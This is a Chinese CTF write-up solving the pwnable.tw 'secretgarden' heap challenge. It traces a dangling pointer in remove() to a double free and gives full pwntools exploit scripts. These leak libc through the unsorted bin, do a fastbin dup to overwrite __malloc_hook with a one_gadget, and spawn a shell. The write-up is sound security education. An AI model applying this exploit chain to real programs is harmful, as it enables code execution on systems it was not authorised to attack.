

题目链接
参考WP：
pwnable.tw中的secretgarden
[pwnable.tw 1118题 writeup](https://veritas501.space/2018/03/04/pwnable.tw 18题 writeup/)
pwnable.tw-secretgarden
两条命令查看给定二进制文件基本信息：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 $ file secretgarden secretgarden: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=cc989aba681411cb235a53b6c5004923d557ab6a, stripped $ checksec secretgarden [*] Checking for new versions of pwntools To disable this functionality, set the contents of /home/bling/.pwntools-cache-2.7/update to 'never'. [*] You have the latest version of Pwntools (4.0.1) [*] '/mnt/hgfs/vmshare-1604/secret_gargen/secretgarden' Arch: amd64-64-little RELRO: Full RELRO Stack: Canary found NX: NX enabled PIE: PIE enabled FORTIFY: Enabled
以上信息可以得知：
64位二进制可执行程序，动态链接，去符号表
got表不可写
栈不可执行，开启栈canary
地址随机化开启
第一眼就看到了alarm函数，patch掉。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 void __fastcall main (__int64 a1, char **a2, char **a3) __int64 choice_1; unsigned __int64 v4; v4 = __readfsqword(0x28 u); time_alarm(); while ( 1 ) { print_info(); read(0 , &choice_1, 4uLL ); switch ( (unsigned int )strtol((const char *)&choice_1, 0LL , 10 ) ) { case 1u : raise(); break ; case 2u : visit(); break ; case 3u : remove(); break ; case 4u : clean(); break ; case 5u : puts ("See you next time." ); exit (0 ); return ; default : puts ("Invalid choice" ); break ; } } }
源码一共实现了5个功能，分别是raise()，visit()，remove()， clean()，以及一个exit(0)退出函数。着重分析前三个函数功能。
经过分析，raise()的功能主要是malloc一个堆块（flower_chunk），并将该堆块链接到bss段qword_202040（大小为100的数组），一共可以养100支花。如下图所示。

该函数会遍历bss段上全局变量qword_202040[100]中各个元素，并打印flower_chunk第一个元素为1的堆块内容（flower_chunk的第一个元素为1表明该flower处于raise状态，当remove后第一个元素会变为0）。
该函数根据指定的数组下标，将对应的flower_chunk第一个元素置为0，并将第二个元素指向的堆块free掉。其中free代码如下：
1 2 3 4 5 6 if ( v2 <= 99 && (v1 = (_DWORD *)qword_202040[v2]) != 0LL ) { *v1 = 0 ; free (*(void **)(qword_202040[v2] + 8LL )); result = puts ("Successful" ); }
可以看到，本题的漏洞点就在这儿。free操作后，并没有将flower_chunk的第二个元素置NULL，导致一个悬空指针的产生。
对delete过的节点，将其从bss段的qword_202040[100]中释放，并将qword_202040[100]相应元素置0。这个函数在我利用中没有用到。
以double free的方式触发该漏洞，代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 from pwn import *context(arch='amd64' ,os='linux' ,log_level='debug' ) myelf = ELF('./secretgarden' ) mylibc = ELF('libc_64.so.6' ) myproc = process(['./secretgarden' ], env={"LD_PRELOAD" :"./libc_64.so.6" }) def Raise (flength,fname,fcolor ): myproc.recvuntil('Your choice : ' ) myproc.sendline('1' ) myproc.recvuntil('Length of the name :' ) myproc.sendline(flength) myproc.recvuntil('The name of flower :' ) myproc.sendline(fname) myproc.recvuntil('The color of the flower :' ) myproc.sendline(fcolor) def Visit (): myproc.recvuntil('Your choice : ' ) myproc.sendline('2' ) def Remove (findex ): myproc.recvuntil('Your choice : ' ) myproc.sendline('3' ) myproc.recvuntil('Which flower do you want to remove from the garden:' ) myproc.sendline(findex) def Clean (): myproc.recvuntil('Your choice : ' ) myproc.sendline('4' ) def Leave (): myproc.recvuntil('Your choice : ' ) myproc.sendline('5' ) Raise('40' ,'f0' ,'c0' ) Raise('40' ,'f1' ,'c1' ) Remove('0' ) Remove('0' ) myproc.interactive()
执行后，出现如下错误提示信息：
1 2 3 [DEBUG] Received 0x5b bytes: "*** Error in `./secretgarden': double free or corruption (fasttop): 0x000055e3496bc050 ***\n" *** Error in `./secretgarden': double free or corruption (fasttop): 0x000055e3496bc050 ***
本题有一个double free的漏洞，并且有一个visit()函数可以打印flower_chunk的堆块内容。因此可以将libc中的某个地址泄露到flower_chunk堆块中，调用visit()函数进行打印，最后通过偏移计算libc基址。double free还可用于构造任意地址写，寻找合适的函数指针（如程序自带的函数指针，got表项，fini_array段函数指针或者libc中的函数指针）将其覆盖为system函数（并构造参数”/bin/sh\x00”），或者直接调用one_gadget。
利用unsorted bin的特性。释放一个堆块到unsorted bin，然后又申请该大小的堆块，调用visit()打印flower_chunk中的name堆块其前0-8或8-16字节。
在覆盖0-8字节时有两种办法：
1）使用sendline("a"*7)或send("a"*8)
2）使用send("")
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 from pwn import *context(arch='amd64' ,os='linux' ,log_level='debug' ) myelf = ELF('./secretgarden' ) mylibc = ELF('libc_64.so.6' ) myproc = process(['./secretgarden' ], env={"LD_PRELOAD" :"./libc_64.so.6" }) def Raise (flength,fname,fcolor ): myproc.recvuntil('Your choice : ' ) myproc.sendline('1' ) myproc.recvuntil('Length of the name :' ) myproc.sendline(flength) myproc.recvuntil('The name of flower :' ) myproc.sendline(fname) myproc.recvuntil('The color of the flower :' ) myproc.sendline(fcolor) def Visit (): myproc.recvuntil('Your choice : ' ) myproc.sendline('2' ) def Remove (findex ): myproc.recvuntil('Your choice : ' ) myproc.sendline('3' ) myproc.recvuntil('Which flower do you want to remove from the garden:' ) myproc.sendline(findex) def Clean (): myproc.recvuntil('Your choice : ' ) myproc.sendline('4' ) def Leave (): myproc.recvuntil('Your choice : ' ) myproc.sendline('5' ) Raise('38' ,'f0' ,'c0' ) Raise('200' ,'f1' ,'c1' ) Raise('38' ,'f2' ,'c2' ) Remove('0' ) Remove('1' ) Raise('200' ,'a' *7 ,'c3' ) Visit() myproc.recvuntil('aaaaaaa\n' ) top_addr = u64(myproc.recv(6 )+'\x00\x00' ) libc_addr = top_addr - 0x3C3B78 log.warn("top_addr:0x%x" % top_addr) log.warn("libc_addr:0x%x" % libc_addr) gdb.attach(myproc) myproc.interactive()
经过分析，本题采用覆盖libc函数指针+one_gadget的方式进行利用。直接覆盖malloc函数的方式不可行，因为one_gadget都有constraints约束条件，如下代码所示。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 $ one_gadget libc_64.so.6 0x45216 execve("/bin/sh", rsp+0x30, environ) constraints: rax == NULL 0x4526a execve("/bin/sh", rsp+0x30, environ) constraints: [rsp+0x30] == NULL 0xef6c4 execve("/bin/sh", rsp+0x50, environ) constraints: [rsp+0x50] == NULL 0xf0567 execve("/bin/sh", rsp+0x70, environ) constraints: [rsp+0x70] == NULL
堆里面有一种情况，就是free或者malloc出错时，会去调用malloc_printerr打印错误信息（如检测到double free时）。这个函数中会去调用malloc，此时的rsp+0x50可以满足上述约束条件。
参考gdb带源码调试libc __malloc_hook时的约束条件。
因此，选择将__malloc_hook函数指针覆盖为one_gadget地址。最后触发一次double free，进入malloc_printerr中调用malloc函数时会先执行__malloc_hook，于是one_gadget得到执行，成功get shell。
最终的exp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 from pwn import *context(arch='amd64' ,os='linux' ,log_level='debug' ) myelf = ELF('./secretgarden' ) mylibc = ELF('libc_64.so.6' ) myproc = process(['./secretgarden' ], env={"LD_PRELOAD" :"./libc_64.so.6" }) def Raise (flength,fname,fcolor ): myproc.recvuntil('Your choice : ' ) myproc.sendline('1' ) myproc.recvuntil('Length of the name :' ) myproc.sendline(flength) myproc.recvuntil('The name of flower :' ) myproc.sendline(fname) myproc.recvuntil('The color of the flower :' ) myproc.sendline(fcolor) def Visit (): myproc.recvuntil('Your choice : ' ) myproc.sendline('2' ) def Remove (findex ): myproc.recvuntil('Your choice : ' ) myproc.sendline('3' ) myproc.recvuntil('Which flower do you want to remove from the garden:' ) myproc.sendline(findex) def Clean (): myproc.recvuntil('Your choice : ' ) myproc.sendline('4' ) def Leave (): myproc.recvuntil('Your choice : ' ) myproc.sendline('5' ) Raise('38' ,'f0' ,'c0' ) Raise('200' ,'f1' ,'c1' ) Raise('38' ,'f2' ,'c2' ) Remove('0' ) Remove('1' ) Raise('200' ,'a' *7 ,'c3' ) Visit() myproc.recvuntil('aaaaaaa\n' ) top_addr = u64(myproc.recv(6 )+'\x00\x00' ) libc_addr = top_addr - 0x3C3B78 malloc_hook = libc_addr + mylibc.symbols['__malloc_hook' ] fake_chunk = malloc_hook - 0x23 gadget_addr = libc_addr + 0xf0567 Raise('100' ,'f0' ,'c4' ) Raise('100' ,'f1' ,'c5' ) Remove('4' ) Remove('5' ) Remove('4' ) Raise('100' ,p64(fake_chunk),'c6' ) Raise('100' ,'xx' ,'c7' ) Raise('100' ,'xx' ,'c8' ) log.warn('fake_chunk: 0x%x' % fake_chunk) log.warn('malloc_hook: 0x%x' % malloc_hook) log.warn('libc_addr: 0x%x' % libc_addr) log.warn('gadget_addr: 0x%x' % gadget_addr) Raise('100' ,'a' *0x13 + p64(gadget_addr),'c9' ) Remove('8' ) Remove('8' ) myproc.interactive()